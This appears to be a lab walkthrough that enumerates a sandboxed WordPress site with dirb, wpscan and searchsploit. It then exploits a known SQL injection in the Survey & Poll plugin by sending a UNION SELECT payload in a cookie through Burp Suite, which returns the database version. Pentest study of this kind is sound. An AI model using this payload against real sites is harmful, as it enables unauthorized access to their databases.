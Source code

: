```
==> DIRECTORY: http://sandbox.local/wp-content/
==> DIRECTORY: http://sandbox.local/wp-includes/
```
dirb seems did some recursive search under each directory

use wp scan for wordpress vul scan:
```
wpscan --url sandbox.local --enumerate ap,at,cb,dbe -o wpscan.txt -f cli-no-color
```
(–enumerate) to include “All Plugins” (ap), “All Themes” (at), “Config backups” (cb), and “Db exports” (dbe).

Found some plugins
```
elementor
ocean-extra
wp-survey-and-poll
```

Use searchsploit to search for vulns, first search their name, but nonthing found

search for survey and poll
```
searchsploit wordpress survey poll
------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                    |  Path
------------------------------------------------------------------ ---------------------------------
WordPress Plugin Survey & Poll 1.5.7.3 - 'sss_params' SQL Injecti | php/webapps/45411.txt
WordPress Plugin Survey and Poll 1.1 - Blind SQL Injection        | php/webapps/36054.txt
------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```
wpscan indicate the plugin version could be `1.5.7.3 `

look at its description:
```
less /usr/share/exploitdb/exploits/php/webapps/45411.txt
["1650149780')) OR 1=2 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,@@version,11#"]
```

Use burpsuite to intercept the communication

## SQL injection through cookie
Use burpsuite repeater, 
proxy->http_history->find the request->send to repeater

replace the cookie with:
```
["1650149780')) OR 1=2 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,@@version,11#"]
```
and send to the server,
find db version: `10.3.20-MariaDB`  

